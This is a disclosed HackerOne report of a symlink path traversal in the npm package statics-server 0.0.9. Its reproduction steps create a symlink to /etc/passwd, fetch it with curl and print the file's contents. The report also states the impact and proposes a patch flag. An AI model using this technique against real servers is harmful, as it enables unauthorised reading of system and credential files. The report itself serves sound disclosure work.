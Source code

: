 # Path traversal using symlink

## Report Details
- **Report ID**: 695416
- **URL**: https://hackerone.com/reports/695416
- **State**: Closed
- **Severity**: high
- **Submitted**: 2019-09-16T07:54:32.084Z
- **Disclosed**: 2019-10-07T16:39:37.919Z

## Reporter
- **Username**: zxdrrr
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs-ecosystem

## Vulnerability Information
I would like to report Path Traversal in statics-server

# Module

**module name:** statics-server
**version:** 0.0.9
**npm page:** `https://www.npmjs.com/package/statics-server`

## Module Description

> npm install statics-server -g
    Go to the folder you want to statics-server
    Run the server statics-server

## Module Stats

> 80-100 downloads/month

# Vulnerability

## Vulnerability Description

> Path traversal using symlink.

## Steps To Reproduce:

* Install statics-server `npm install statics-server -g`
* Run statics-server

```
hawkeye@ubuntu:~/App/$ statics-server
服务器已经启动
访问localhost:8080

```

* Create a symlink inside your project directory.
`$ ln -s /etc/passwd passwdsym`
* Send request to get file.

```
hawkeye@ubuntu:~/$ curl localhost:8080/passwdsym
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
...

```
{F583766}
## Patch

> Providing a flag to disable/enable following symlinks.

## Supporting Material/References:

- Ubuntu 19.04
- Node v10.15.2
- Npm 5.8.0

# Wrap up

- I contacted the maintainer to let them know: [N] 
- I opened an issue in the related repository: [N]

## Impact

It allows attacker to read content of arbitrary file on remote server.

## Attachments
- Curl.png
